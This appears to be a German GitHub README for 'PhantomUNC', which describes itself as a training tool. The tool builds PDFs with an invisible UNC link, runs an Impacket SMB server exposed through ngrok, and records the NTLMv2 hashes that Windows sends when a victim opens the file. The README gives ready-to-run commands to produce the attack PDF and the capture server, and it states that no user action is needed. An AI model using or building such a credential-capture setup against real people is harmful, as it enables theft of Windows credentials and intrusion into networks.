 # 🕵️ PhantomUNC – PDF & SMB NTLM Trigger Tool

**PhantomUNC** ist ein Schulungs- und Awareness-Tool zur Demonstration von Windows-Netzwerkschwachstellen.  
Es zeigt, wie ein PDF durch einen versteckten **UNC-Link** automatisch einen NTLMv2-Hash auslöst.

---
tvPsg4BZr0ftQW9M
## 🚀 Features

- 📄 Erstellt eine **PDF-Datei mit einem unsichtbaren UNC-Link**
- 📡 Startet einen **SMB-Server (Impacket-basiert)** zur Aufnahme eingehender Authentifizierungen
- 🌍 **ngrok-Integration**, um SMB über das Internet verfügbar zu machen
- 🧾 Zeichnet **NTLMv2-Hashes in Logdateien** auf
- 📦 Inklusive **.deb-Installer**, PDF-Anleitung & Manpage

---

## 🎯 Beispielhafte Nutzung

### 📄 Nur PDF erzeugen:
```bash
phantomunc --build-pdf -in Original.pdf -out Angriff.pdf -D Output/
```

### 🌐 Komplettsetup: PDF + SMB-Server + ngrok

```bash
phantomunc --build-pdf -in Original.pdf -out Angriff.pdf -D Output/ --run-server --use-ngrok
```
👉 Danach wird eine PDF generiert, die – beim Öffnen – versucht \\<SMB-Host>\share zu erreichen
🧠 Windows schickt dabei NTLMv2-Hashdaten automatisch, ohne dass der Benutzer etwas tun muss.

